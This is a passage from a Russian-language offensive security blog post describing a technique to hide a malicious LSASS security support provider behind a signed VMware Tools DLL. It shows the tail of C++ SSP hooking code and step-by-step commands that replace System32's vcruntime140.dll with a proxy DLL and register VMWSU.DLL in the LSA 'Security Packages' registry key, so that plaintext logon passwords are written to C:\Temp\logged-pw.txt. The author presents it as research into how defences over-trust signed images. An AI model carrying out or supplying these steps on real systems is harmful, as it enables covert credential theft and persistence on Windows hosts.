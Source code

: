 ```cpp

    *PackageVersion = SECPKG_INTERFACE_VERSION;
    *ppTables = SecurityPackageFunctionTable;
    *pcTables = 1;

    fastTrampoline(true, (BYTE*)spLsaModeInitializeAddress, (void*)&MySpLsaModeInitialize, NULL);
}
```

Очевидно, что скопипащенный с ired.team код SSP палится всем чем можно даже в статике, однако наша цель в данном случае — не избежать детектов на диске, а найти способ сокрытия целевой библиотеки из соответствующего ключа реестра.

Компилируем как DLL с корректными экспортами, полученными с помощью `SharpDllProxy` (`output_vcruntime140\vcruntime140_pragma.c`/), и копируем результат как `C:\WINDOWS\System32\vcruntime140.dll`. Туда же кладем исходную библиотекой, предварительно переименовав в `output_vcruntime140\tmp50CA.dll`:

```terminal?prompt=>
Cmd > move \windows\system32\vcruntime140.dll \windows\system32\vcruntime140.dll.bak 
Cmd > copy output_vcruntime140\tmp50CA.dll \windows\system32\tmp50CA.dll 
Cmd > copy C:\Repos\Dll1\x64\Release\Dll1.dll \windows\system32\vcruntime140.dll 
```

Отмечу, что не обязательно класть оригинальную переименованную библиотеку `tmp50CA.dll` в `SYSTEM32` — достаточно при определении прагм с экспортами указать полный путь до либы.

Теперь добавляем `VMWSU.DLL` в качестве провайдера безопасности LSASS:

```terminal?prompt=>
Cmd > reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d 
"kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0vmwsu" /t REG_MULTI_SZ /f 
```

И вуаля — в реестре значение ключа Security Packages содержит только легитимные **подписанные** DLL, однако при подгрузке VMWSU.DLL будет загружаться `vcruntime140.dll`, которая заменит вызов `SpLsaModeInitialize` на сборщик паролей в открытом виде. При этом работоспособность системы не пострадает, так как вызовы к `vcruntime140.dll` будут проксироваться до оригинальной библиотеки.

Перезагружаемся, логинимся, проверяем файл `C:\Temp\logged-pw.txt` и, о боже, обнаруживаем в нем только что введенный пароль!

# Вывод

Мне удалось обнаружить небольшой зиродей для виртуальных машинок с навешанным VMware Tools. Несмотря на то, что этот кейс вряд ли сработает в боевых условиях, все же я считаю, что некоторые защитные средства чрезмерно доверчиво относятся к активности, исходящей от подписанных образов PE. А ведь ими тоже можно манипулировать!
